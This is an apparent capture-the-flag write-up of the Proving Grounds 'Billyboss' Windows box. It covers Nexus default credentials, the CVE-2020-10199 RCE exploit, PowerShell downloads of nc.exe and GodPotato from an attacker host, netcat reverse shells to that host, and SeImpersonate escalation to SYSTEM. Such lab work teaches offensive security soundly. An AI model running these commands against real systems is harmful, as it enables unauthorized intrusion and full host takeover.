# Enumeration

## nmap scan

```bash
nmap -Pn -p- --open -sC -sV -O -vv -T4 -oA nmap/Billyboss 192.168.182.61

PORT      STATE SERVICE       REASON          VERSION                                                                                                                  
21/tcp    open  ftp           syn-ack ttl 125 Microsoft ftpd                                                                                                           
| ftp-syst:                                                                                                                                                            
|_  SYST: Windows_NT                                                                                                                                                   
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0                                                                                                 
|_http-title: BaGet                                                                                                                                                    
|_http-favicon: Unknown favicon MD5: 8D9ADDAFA993A4318E476ED8EB0C8061                                                                                                  
|_http-server-header: Microsoft-IIS/10.0                                                                                                                               
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH                                                                                                      
| http-methods:                                                                                                                                                        
|_  Supported Methods: GET HEAD                                                                                                                                        
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn                                                                                            
445/tcp   open  microsoft-ds? syn-ack ttl 125                                                                                                                          
5040/tcp  open  unknown       syn-ack ttl 125                                                                                                                          
8081/tcp  open  http          syn-ack ttl 125 Jetty 9.4.18.v20190429                                                                                                   
|_http-server-header: Nexus/3.21.0-05 (OSS)                                                                                                                            
| http-robots.txt: 2 disallowed entries                                                                                                                                
|_/repository/ /service/                                                                                                                                               
| http-methods:                                                                                                                                                        
|_  Supported Methods: GET HEAD                                                                                                                                        
|_http-title: Nexus Repository Manager                                                                                                                                 
|_http-favicon: Unknown favicon MD5: 9A008BECDE9C5F250EDAD4F00E567721                                                                                                  
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC                                                                                                    
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                                                                    
TCP/IP fingerprint:                                                                                                                                                    
OS:SCAN(V=7.98%E=4%D=1/21%OT=21%CT=1%CU=32767%PV=Y%DS=4%DC=I%G=Y%TM=6970B74                                                                                            
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%TS=U)SEQ(SP=1                                                                                            
OS:07%GCD=1%ISR=10C%TI=I%CI=I%TS=U)SEQ(SP=108%GCD=1%ISR=109%TI=I%CI=I%TS=U)                                                                                            
OS:SEQ(SP=FC%GCD=1%ISR=10B%TI=I%CI=I%TS=U)SEQ(SP=FD%GCD=1%ISR=107%TI=I%CI=I                                                                                            
OS:%TS=U)OPS(O1=M578NW8NNS%O2=M578NW8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW                                                                                            
OS:8NNS%O6=M578NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(                                                                                            
OS:R=Y%DF=Y%T=80%W=FFFF%O=M578NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS                                                                                            
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=                                                                                            
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=                                                                                            
OS:R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R                                                                                            
OS:UCK=G%RUD=G)IE(R=N)                                                                                                                                            
Network Distance: 4 hops                                                                                                                                               
TCP Sequence Prediction: Difficulty=252 (Good luck!)                                                                                                                   
IP ID Sequence Generation: Incremental                                                                                                                                 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                                                                                               

Host script results:                                                                                                                                                   
| smb2-time:                                                                                                                                                           
|   date: 2026-01-21T11:23:37                                                                                                                                          
|_  start_date: N/A                                                                                                                                                    
|_clock-skew: 0s                                                                                                                                                       
| p2p-conficker:                                                                                                                                                       
|   Checking for Conficker.C or higher...                                                                                                                              
|   Check 1 (port 14913/tcp): CLEAN (Couldn't connect)                                                                                                                 
|   Check 2 (port 21194/tcp): CLEAN (Couldn't connect)                                                                                                                 
|   Check 3 (port 2114/udp): CLEAN (Timeout)                                                                                                                           
|   Check 4 (port 35146/udp): CLEAN (Failed to receive data)                                                                                                           
|_  0/4 checks are positive: Host is CLEAN or ports are blocked                                                                                                        
| smb2-security-mode:                                                                                                                                                  
|   3.1.1:                                                                                                                                                             
|_    Message signing enabled but not required       
```

Since we don't have credentials and anonymous login isn't enabled on ftp we can look at other services. Let's start with http.

## HTTP

### Port 80

Only has a web page; `BaGet` open-source server that has Microsoft IIS running based on our nmap scan so nothing useful to us there. At least for now.



### Port 8081

We see the homepage for the Sonatype Nexus Repository Manager Application. This is essentially a private, secure storage and distribution center for software components (libraries, containers, etc). We also see the version of the application (OSS 3.21.0-05). The sign in tab gives us a pop up window to enter credentials. 






We can use run gobuster to enumerate directories and see if anything interesting comes up.

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/WindowsBoxes/Billyboss❯❯ gobuster dir -u http://192.168.182.61:8081 -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_directories.txt -t 42 -b 400,402,403,404 --exclude-length 2166
```

While that is running we will search for default credentials to access the application. Doing some research we discover the credentials `admin:admin123`.



Unfortunately that didn't work.



We can also use the seclists password wordlists to look for credentials. This keeps a curated list of default credentials for multiple applications and platforms. We will use grep to only results credentials pertaining to Sonatype Nexus.

```bash
🟠卐pyro ॐ /usr/share/wordlists/seclists/Passwords❯❯ grep -r 'Sonatype Nexus'                                                                                          
Default-Credentials/default-passwords.csv:Sonatype Nexus Repository Manager,admin,admin123,https://help.sonatype.com/repomanager2/maven-and-other-build-tools/sbt
Default-Credentials/default-passwords.csv:Sonatype Nexus Repository Manager,==nexus,nexus==,
```

We see the previous one we tried as well as a new set of credentials `nexus:nexus`. 



It works.

However looking at the browse tab all the repositories are empty.



So far we have default credentials and the version of the application. We can use this information to search for an exploit. [ExploitDB](https://www.exploit-db.com/exploits/49385) provides an Authenticated RCE vulnerability we can exploit.



Rather than downloading the exploit from the website, using searchsploit lets me download it directly to my current working directory.

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/WindowsBoxes/Billyboss❯❯ searchsploit Sonatype Nexus 3.21.1                                                                      
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)                                                                        | java/webapps/49385.py
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
🟠卐pyro ॐ ~/Documents/ProvingGrounds/WindowsBoxes/Billyboss❯❯ searchsploit -m 49385.py                                                                                
  Exploit: Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49385
     Path: /usr/share/exploitdb/exploits/java/webapps/49385.py
    Codes: CVE-2020-10199
 Verified: True
File Type: Unicode text, UTF-8 text
Copied to: /home/pyro/Documents/ProvingGrounds/WindowsBoxes/Billyboss/49385.py


🟠卐pyro ॐ ~/Documents/ProvingGrounds/WindowsBoxes/Billyboss❯❯ ls                                                                                                      
 ==49385.py==   nmap   screenshots
```

# Exploitation

Opening the script, we will modify the target url, the command we want the script to execute and feed it the credentials we obtained.



We will use this powershell command to transfer the windows executable of netcat in order to get a reverse shell.

```bash
'powershell iwr http://192.168.45.213/nc.exe -outfile nc.exe'
```

For the target to download `nc.exe` we need to start our python http server to host the file.

```bash
python3 -m http.server 80
```

We have modified the script



And when we run the script the command was successfully executed and from the http server we can see we were able to transfer `nc.exe`



We will setup our netcat listener at port 4444.

```bash
nc -lvnp 4444
```

Then modify the command to have the netcat executable connect with our listener and run `cmd.exe`.

```bash
.\\\\nc.exe 192.168.45.213 4444 -e cmd.exe
```



Run the script again and we should get a reverse shell



The first flag is in the Desktop directory.




# Privilege Escalation

First command I always run when I gain access to a windows system is the `whoami /priv` command. This will display the security privileges of the current user.

```powershell
C:\Users\nathan\Desktop>whoami /priv                                                                                                                                   
whoami /priv                                                                                                                                                      
PRIVILEGES INFORMATION                                                                                                                                                 
----------------------                                                                                                                                                 

Privilege Name                Description                               State                                                                                          
============================= ========================================= ========                                                                                       
SeShutdownPrivilege           Shut down the system                      Disabled                                                                                       
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                                                                                        
SeUndockPrivilege             Remove computer from docking station      Disabled                                                                                       
==SeImpersonatePrivilege==        Impersonate a client after authentication Enabled                                                                                        
SeCreateGlobalPrivilege       Create global objects                     Enabled                                                                                        
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled                                                                                       
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` being enabled gives us a quick win as we can use any of the Potato family exploits to fully root the system. For the purpose of this lab I will use the GodPotato exploit as it is the easiest to manipulate. 

## Using GodPotato to gain ROOT privileges

First I need to ensure powershell is running on the target and if it is restricted, bypass the restriction with the following commands.

```powershell
powershell "Get-ExecutionPolicy"
powershell -ep bypass
```

```powershell
C:\Users\nathan\Desktop>powershell "Get-ExecutionPolicy"                                                                                                               
powershell "Get-ExecutionPolicy"                                                                                                                                       
Restricted                                                                                                                                                             

C:\Users\nathan\Desktop>powershell -ep bypass                                                                                                                          
powershell -ep bypass                                                                                                                                                  
Windows PowerShell                                                                                                                                                     
Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                              

Try the new cross-platform PowerShell https://aka.ms/pscore6                                                                                                           
PS C:\Users\nathan\Desktop>   
```

Now I can use the following powershell command to download the GodPotato exploit from kali.

```powershell
(new-object System.Net.WebClient).DownloadFile('http://192.168.45.213/GodPotato-NET4.exe','C:\Users\nathan\Desktop\GodPotato-NET4.exe')
```

Don't forget to start the python http server to host the file.



We will use the `whoami` command to test if the exploit works.

```powershell
.\GodPotato-NET4.exe -cmd "whoami"
```



We see that the user has changed after running GodPotato to NT AUTHORITY\SYSTEM which is the highest privileged user on a Windows system, so we know it works. 

Now we will use it to get another reverse shell as that user. Once again we will set up a netcat listener.

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/WindowsBoxes/Billyboss❯❯ nc -lvnp 6666                                                                                           
listening on [any] 6666 ...

```

Then I will run the following command on the target system to run the netcat executable we downloaded earlier in order to get the reverse shell.

```powershell
PS C:\Users\nathan\Desktop> .\GodPotato-NET4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc.exe -e cmd 192.168.45.213 6666" 
```



For some reason, the `whoami` command doesn't work but you can access the Administrator's account and see the second flag; proof that we are logged in as NT AUTHORITY\SYSTEM.



Fully ROOTED!!!!

```
NOTE:
Would appreciate if someone can share if they were able to get the whoami command to work and how they did it.
```
